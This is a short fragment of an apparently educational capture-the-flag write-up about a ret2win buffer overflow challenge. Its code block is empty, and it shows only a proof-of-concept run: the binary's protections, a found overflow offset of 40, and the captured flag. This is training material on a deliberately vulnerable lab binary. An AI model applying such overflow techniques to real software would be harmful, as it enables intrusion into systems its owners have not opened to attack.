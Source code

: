 ```python
```

### PoC 🏁

```console
➜  challenge git:(main) ✗ python solver.py 
[*] '/home/w3th4nds/github/Thesis/challenge1/challenge/challenge1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 40

[+] Flag: FLAG{ret2win_1s_345y}
```